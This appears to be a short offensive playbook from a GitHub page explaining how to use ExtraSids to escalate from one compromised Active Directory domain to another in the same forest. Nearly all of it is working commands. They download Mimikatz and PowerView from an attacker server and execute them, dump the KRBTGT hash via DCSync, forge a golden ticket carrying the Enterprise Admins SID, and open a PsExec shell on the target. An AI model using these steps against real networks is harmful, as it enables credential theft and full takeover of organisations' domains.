 # <h1 align="center" id="heading">ExtraSids</h1>
If I have compromised one domain that has intra-forest trust to another domain, I can leverage ExtraSids to compromise that domain as well. I will start off by downloading Mimikatz to the target and dumping the KRBTGT NTLM hash with the following commands:
```powershell
wget http://<attacker server>/mimikatz64.exe -outfile c:\windows\tasks\mimikatz64.exe
```
```powershell
c:\windows\tasks\mimikatz64.exe
```
```powershell
privilege::debug
```
```powershell
token::elevate
```
```powershell
lsadump::dcsync /domain:<current domain> /user:<domain>\krbtgt
```
I need to collect the SIDs for my current domain and the target domain with the following commands:
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker server>/PowerView.ps1');Get-DomainSID -Domain <current domain>
```
```powershell
iex(new-object system.net.webclient).downloadstring('http://<attacker server>/PowerView.ps1');Get-DomainSID -Domain <target domain>
```
I will also need to transfer PSExec to the target system with the following command:
```powershell
wget http://http://<attacker server>/PsExec64.exe -outfile PsExec64.exe
```
I will now use the following Mimikatz command to forge a Golden Ticket to PTT to the target domain **(NOTE: APPEND -519 to TARGET SID)**
```console
mimikatz64.exe
```
```console
privilege::debug
```
```console
kerberos::golden /user:<domain user> /domain:<current domain> /sid:<current domain sid> /krbtgt:<krbtgt ntlm hash> /sids:<target domain sid>-519 /ptt
```
After successfully passing the Golden Ticket to the new target Domain Controller, I can run the following command to establish a cmd.exe session:
```console
PsExec64.exe \\<target system> cmd
```
